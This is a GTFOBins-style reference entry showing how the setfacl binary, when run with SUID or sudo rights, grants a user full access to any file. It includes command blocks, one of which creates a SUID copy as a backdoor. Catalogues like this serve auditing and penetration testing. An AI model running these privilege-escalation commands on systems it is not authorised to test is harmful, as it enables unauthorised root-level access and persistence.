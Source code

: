 # GTFOBin: setfacl

This can be run with elevated privileges to change ownership and then read, write, or execute a file.

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which setfacl) .

LFILE=file_to_change
USER=somebody
./setfacl -m u:$USER:rwx $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_change
USER=somebody
sudo setfacl -m -u:$USER:rwx $LFILE
```